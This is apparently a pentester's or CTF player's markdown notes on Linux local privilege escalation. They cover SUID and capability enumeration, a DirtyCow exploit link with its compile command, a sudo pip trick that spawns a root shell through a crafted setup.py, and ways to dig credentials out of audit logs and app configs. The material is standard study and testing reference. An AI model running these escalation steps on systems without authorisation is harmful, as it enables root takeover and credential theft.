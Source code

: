 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


# Sticky-Bit

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## Unsanitized paths
#unsanitizedpath #path
See [[Unsanitized Path]].

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):

`TF=$(mktemp -d)`
`echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py`
`sudo -H /usr/bin/pip3 install $TF`

# Audit-Logs
grep audit-logs for "data=" and decode as hex. Might contain passwords

# Docker
See [[Docker]].

# Search for credentials
## DBs
If mysql or mariadb is running, search for credentials in the config files for web apps. Sometimes there are hashes to crack and password reuse is a steady friend.

# Check for autologin
- Check for autologin
- `/etc/autologin`

# Magic grep
`grep -r 'keyword' /`
`grep 'keyword' /etc -R 2>/dev/null`

# Systemd services
Check `/etc/systemd/` services for custom ones.

# File capabilities
Check filesystem for files with caps:
`getcap -r / 2> /dev/null`

Interesting is for example `cap_setuid`.